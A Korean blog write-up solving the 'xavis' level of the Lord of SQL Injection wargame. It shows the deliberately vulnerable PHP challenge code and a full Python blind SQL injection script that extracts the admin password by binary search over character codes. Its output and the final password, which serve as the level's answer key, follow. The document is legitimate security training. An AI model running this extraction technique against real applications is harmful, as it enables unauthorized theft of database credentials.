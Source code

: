 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - xavis 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 이거 너무 오래 고민했는데 너무 허무하다.  

내가 마블 영화에서 젤 좋아하는게 아이언맨이고 그 중에서도 좋아하는게 자비스 캐릭터였는데, 이 문제때문에 싫어질라고 했다.  

근데 어찌어찌 풀었는데 나한테 화가난다 ㅋㅋㅋㅋ  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw=''
--------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

일단 소스코드는 간단하다.  

보면 `regex`랑 `like`은 사용을 못하도록 되어있는데, 그거 외에 `'`, `"`, `=`, `and`, `or`에 필터링이 없다.  

그래서 처음엔 그냥 `Blind SQL Injection`인줄 알고 이 전에 사용했었던 소스코드를 가져와 돌려보았다.  

그런데 `length`는 `12`라고 나오는데, 막상 `pw`는 `4번째` 문자부터만 찾았다.  

거기다 4번째 문자 ~ 12번째 문자까지가 싹 다 `0`이 나왔다.  

뭔가 이상하다 싶어서 `ord`랑 부등호를 사용해서 첫 번째 글자를 대충 손으로 찾아 보았다.  

그랬더니 값이 무려 `50000`대가 나왔다.  

`hex`로 값을 바꾸어 보니 `0xc6b0`이 나왔는데, 보니까 우리가 일반적으로 사용하는 아스키코드 범위 내의 문자가 아닌 것 같았다.  

그래서 원래 소스코드에서 `48 ~ 127`까지 비교하던 값을 `0x0 ~ 0xffff` 즉,  `0 ~ 65536`까지로 바꾸었다.  

첨엔 이렇게 소스코드 짜고 돌리려고 했는데, 생각해보니 최악의 경우 `0 ~ 65536`까지 `12번`을 비교해야 한다.  

뭔가 서버가 터질까봐 두려워서 횟수를 줄일 수 있는 방법을 찾다가 갑자기 학교 다닐때 배웠던 `이진 탐색`이 생각났다.  

그래서 이 `이진 탐색(Binary Search)` 알고리즘을 사용해서 아래와 같이 소스코드를 구현했다.  

```python
import urllib2
import urllib
import requests

def testEqual(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) = " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def testBigger(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) < " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def searchPw(j, start, end):
        if start > end:
                return "None"

        mid = (start + end) / 2

        if testEqual(j, mid):
                return hex(mid)
        elif testBigger(j, mid):
                end = mid - 1
        else:
                start = mid + 1

        return searchPw(j, start, end)
               
flag = "0x"
length = 0

url = "http://los.rubiya.kr/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
        try:
                query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
                continue

        if 'Hello admin' in r.text:
                length = i
                break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
        flag += str(searchPw(j, 0, 65535))[2:]
        print "[+] Found ", str(j), "'s pw : ", flag

print "[+] Found password : ", flag
print "[+] End"
```

이 소스코드를 돌리면 결과는 아래와 같이 나온다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  12
[+] Find password
[+] Found  1 's pw :  0xc6b0
[+] Found  2 's pw :  0xc6b0c655
[+] Found  3 's pw :  0xc6b0c655ad73
[+] Found  4 's pw :  0xc6b0c655ad730
[+] Found  5 's pw :  0xc6b0c655ad7300
[+] Found  6 's pw :  0xc6b0c655ad73000
[+] Found  7 's pw :  0xc6b0c655ad730000
[+] Found  8 's pw :  0xc6b0c655ad7300000
[+] Found  9 's pw :  0xc6b0c655ad73000000
[+] Found  10 's pw :  0xc6b0c655ad730000000
[+] Found  11 's pw :  0xc6b0c655ad7300000000
[+] Found  12 's pw :  0xc6b0c655ad73000000000
[+] Found password :  0xc6b0c655ad73000000000
[+] End
```

4번째부터는 `0`이 나오는 걸 보니, 실제로는 3글자인 것 같았다.  

여기까진 어렵지 않게 왔는데, 문제는 지금부터였다.  

딱봐도 그냥 아스키코드는 아니고 확장 아스키코드인가 싶어서 인터넷을 뒤져서 `Converter`에 돌려 보았었다.  

막 다 이상한 문자만 출력 해 주길래 그게 맞는건줄 알고 계속 시도했다.  

근데 아무리 해도 안됨ㅋ  

매일매일 뭐가 잘못된건지 뒤져보는데 아무리봐도 모르겠어서 며칠동안 `내가 코드를 잘못짰나`, 아니면 `변환기를 잘못 사용했나` 해서 진짜 사이트 여기저기 돌아다니면서 `Converter`를 사용 했었다.  

그러다가 며칠만에 오늘... 이 [사이트](https://www.branah.com/unicode-converter)를 발견했다.  

여기 아래 부분에 보면 `Decimal`이라고, 10진수로 값을 입력하는 곳이 있다.  

그 칸에 나온 글자 3개의 `hex` 값을 `10진수`로 바꾸어 입력 해 주었다.  

```
508645077344403

OR

50864 50773 44403
```

그랬더니 맨 위 칸에 `우왕굳`이라고 나왔다.  

ㅋ  

결국 한글이었다.  

난 그것도 모르고 변환기가 이상한 문자를 주길래 걔인가 해서 며칠동안 걔만 시도했는데 아니었다.  

왜 그 사이트에서는 이상한 문자로 준건지를 모르겠다.  

`hex`로 입력했을 때랑 `decimal`로 입력했을 때랑 다른 값을 주는건가...?  

그럴리가..  

어쨌든 왜 제대로 변환이 안됬는지 원인은 모르겠지만, `우왕굳`을 입력 해 주니 며칠간의 삽질을 끝낼 수 있었다.  

```
?pw=우왕굳
```

```php
---------------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw='우왕굳'
---------------------------------------------------------------------

Hello admin
XAVIS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`XAVIS Clear!!`
